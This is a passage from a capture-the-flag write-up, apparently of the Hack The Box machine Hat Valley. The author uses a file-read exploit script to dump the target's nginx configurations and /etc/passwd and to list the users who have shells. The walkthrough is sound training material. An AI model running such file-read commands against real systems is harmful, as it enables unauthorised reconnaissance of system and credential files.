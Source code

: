 
    oxdf@hacky$ python read_file.py /etc/nginx/sites-enabled/store.conf | grep -v "#" | grep .
    server {
        listen       80;
        server_name  store.hat-valley.htb;
        root /var/www/store;
        location / {
            index index.php index.md index.htm;
        }
        location ~ \.php$ {
            auth_basic "Restricted";
            auth_basic_user_file /etc/nginx/conf.d/.htpasswd;
            fastcgi_pass   unix:/var/run/php/php8.1-fpm.sock;
            fastcgi_index  index.php;
            fastcgi_param  SCRIPT_FILENAME  $realpath_root$fastcgi_script_name;
            include        fastcgi_params;
        }
    }



Same with the main site, forwarding to 8080 as I guessed above:



    oxdf@hacky$ python read_file.py /etc/nginx/sites-enabled/hat-valley.htb.conf | grep -v "#" | grep .
    server {
        listen 80;
        server_name hat-valley.htb;
        root /var/www/hat-valley.htb;
        location / {
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_pass http://127.0.0.1:8080;
            proxy_http_version 1.1;
            proxy_set_header Upgrade $http_upgrade;
            proxy_set_header Connection "upgrade";
        }
    }



I can spend some time looking around in the web files, but won't find
anything useful.

#### Users

Without finding much there, I'll move to users who have a shell on the
box:



    oxdf@hacky$ python read_file.py /etc/passwd | grep "sh$"
    root:x:0:0:root:/root:/bin/bash
    bean:x:1001:1001:,,,:/home/bean:/bin/bash
    christine:x:1002:1002:,,,:/home/christine:/bin/bash
    _laurel:x:999:999::/var/log/laurel:/bin/sh

